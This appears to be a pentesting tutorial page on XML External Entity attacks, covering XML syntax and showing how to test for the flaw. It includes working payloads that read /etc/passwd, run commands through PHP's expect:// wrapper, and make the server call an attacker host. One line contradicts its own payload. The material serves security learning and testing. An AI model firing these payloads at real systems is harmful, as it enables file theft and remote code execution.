 # XML External Entity Attack

With this attack you can do:

* Read local files
* Denial-of-service
* Perform port-scan
* Remote Code Execution

Where do you find it:

* Anywhere where XML is posted.

* Common with file-uploading functionality. For files that uses XML, like: docx, pptx, gpx, pdf and xml itself.

### Background XML

XML is a markup language, like HTML. Unlike HTML is does not have any predefined tags. It is the user that create the tags in the XML object. XML is just a format for storing and transporing data. XML uses tags and subtags, just like html. Or parents, children, and syblings. So in that sense it has the same tree-structure as html.

To define a XML-section/document you need the following tag to begin:

```
<?xml version="1.0" encoding="UTF-8"?>
```

Example of valid XML:

```
<?xml version="1.0"?>
    <change-log>
        <text>Hello World</text>
    </change-log>
```

[https://www.owasp.org/index.php/XML\_External\_Entity\_\(XXE\)\_Processing](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing)

### Syntax rule

* Must have root element
* Must have XML prolog

```
<?xml version="1.0" encoding="UTF-8"?>
```

* All elements must have closing tag
* Tags are case-sensitive
* XML Attributes must be quotes
* Special characters must be escaped correctly.

| &lt; | &lt; | less than |
| :--- | :--- | :--- |
| &gt; | &gt; | greater than |
| & | & | ampersand |
| ' | ' | apostrophe |
| " | " | quotation mark |

* Whitespace is perserved in XML

### Attack

So if an application receives XML to the server the attacker might be able to exploit an XXE. It could be sent as a GET, but it is more likely that it is send in a POST. An attack might look like this:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

The elemet can be whatever, it doesn't matter. The xxe is the "variable" where the content of /dev/random get stored. And by dereferencing it in the foo-tag the content gets outputted.This way an attacker might be able to read files from the local system, like boot.ini or passwd. SYSTEM means that what is to be included can be found locally on the filesystem.

In php-applications where the expect module is loaded it is possible to get RCE. It is not a very common vulnerability, but still good to know.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

Even if the data is not reflected backto the website it is still possible to exfiltrate files and data from the server. The technique is similar to how you exfiltrate the cookie in a Cross-Site Scripting attack, you send it in the url.

### Test for it

* Input is reflected

```
<?xml version="1.0"?><!DOCTYPE Any [<!ENTITY xxe "testdata">]><add>&xxe;</add>
```

If "testdata" gets reflected then it is vulnerable to XXE. If it gets reflected you can try to exfiltrate the data the following way:

```
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

Another way to test it is to see if the server tries to download the external script. Firs t you need to set up your own webserver, and then wait for it to connect.

```
<!DOCTYPE testingxxe [<!ENTITY xxe SYSTEM "http://192.168.1.101/fil.txt">]><test>&xxe;</test>
```

### Exfiltrate data through URL

[https://blog.bugcrowd.com/advice-from-a-researcher-xxe/](https://blog.bugcrowd.com/advice-from-a-researcher-xxe/)

### References

[https://securitytraning.com/xml-external-entity-xxe-xml-injection-web-for-pentester/](https://securitytraning.com/xml-external-entity-xxe-xml-injection-web-for-pentester/)

[https://blog.bugcrowd.com/advice-from-a-researcher-xxe/](https://blog.bugcrowd.com/advice-from-a-researcher-xxe/)

[http://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html](http://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html)

[https://blog.zsec.uk/blind-xxe-learning/](https://blog.zsec.uk/blind-xxe-learning/)

